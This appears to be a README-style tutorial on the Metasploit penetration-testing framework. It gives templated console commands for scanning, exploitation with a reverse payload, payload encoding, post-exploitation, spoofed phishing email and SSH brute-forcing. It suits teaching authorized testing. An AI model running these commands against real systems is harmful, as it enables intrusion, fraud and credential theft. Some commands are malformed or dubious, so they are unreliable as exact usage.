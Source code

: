 # MetaSploit

## What is Metasploit?

Metasploit is an open-source penetration testing tool that is designed to make it easier for security professionals to find and exploit vulnerabilities in networks, applications, and operating systems. The tool is widely used by penetration testers, ethical hackers, and security researchers around the world to identify and exploit security weaknesses in various systems.

## Metasploit Framework Architecture:

The Metasploit Framework is based on a client-server architecture, where the client is a console interface that interacts with the backend server, which is responsible for managing and executing the various exploits and payloads. The client provides a wide range of features that can be used to perform various tasks, such as creating and configuring payloads, selecting exploits, and launching attacks.

The Metasploit Framework is divided into three main components:

Exploits: These are the scripts or codes that take advantage of a vulnerability in a system or application.

Payloads: These are the codes or scripts that provide a way for the attacker to gain control over the compromised system.

Auxiliary: These are the scripts or codes that provide additional functionality, such as network scanning, fingerprinting, and brute-force attacks.

## How Penetration Testers Use Metasploit:

Penetration testers use Metasploit in various ways to identify and exploit security vulnerabilities. Some of the common use cases of Metasploit are:

Vulnerability Scanning: Metasploit can be used to scan for vulnerabilities in networks, applications, and operating systems. It can scan for various types of vulnerabilities, such as SQL injection, buffer overflows, and remote code execution.
For example, to scan for vulnerabilities in a web application, a penetration tester can use the following command:

msfconsole
use auxiliary/scanner/http/dir_scanner
set RHOSTS <target IP>
set THREADS 10
run

Exploiting Vulnerabilities: Once a vulnerability is identified, Metasploit can be used to exploit it and gain access to the system or application.
For example, to exploit a known vulnerability in an operating system, a penetration tester can use the following command:

msfconsole
use exploit/<exploit name>
set RHOST <target IP>
set PAYLOAD <payload>
set LHOST <attacker IP>
run

Payload Creation: Metasploit can be used to create custom payloads that can be used to gain access to a compromised system or application. These payloads can be customized to suit the specific requirements of the penetration test.
For example, to create a custom payload for a specific exploit, a penetration tester can use the following command:

msfvenom
-p <payload>
--platform <target OS>
--arch <target architecture>
-e <encoder>
-f <output format>
-o <output file>

Post-Exploitation: Metasploit can be used to perform post-exploitation activities, such as privilege escalation, data exfiltration, and lateral movement.
For example, to perform privilege escalation on a compromised system, a penetration tester can use the following command:

msfconsole
use post/multi/recon/local_exploit_suggester
set SESSION <session ID>
run

Reporting: Metasploit can be used to generate detailed reports on the vulnerabilities identified and the exploits used during the penetration testing.
For example, to generate a report on the vulnerabilities identified and the exploits used during a penetration testing, a penetration tester can use the following command:

msfconsole
use reporting/<reporting module

Social Engineering: Metasploit can be used to test the effectiveness of social engineering attacks, such as phishing, spear-phishing, and vishing.
For example, to test the effectiveness of a phishing attack, a penetration tester can use the following command:

msfconsole
use auxiliary/phishing/smtp_spoof
set TO <victim email>
set SUBJECT <email subject>
set BODY <email body>
set FROM <spoofed sender>
set SMTP_SERVER <SMTP server>
run

Password Cracking: Metasploit can be used to test the strength of passwords used in various systems and applications.
For example, to crack a password using Metasploit, a penetration tester can use the following command:

msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target IP>
set USERNAME <username>
set PASS_FILE <password file>
run

Metasploit is a powerful tool that provides penetration testers with a wide range of features to identify and exploit vulnerabilities in various systems and applications. With its client-server architecture and modular design, it allows penetration testers to customize their attacks and payloads to suit their specific requirements. However, it is important to note that Metasploit should only be used by authorized security professionals for ethical and legal penetration testing purposes. Unauthorized use of Metasploit or any other hacking tool is strictly prohibited and can result in serious legal consequences.
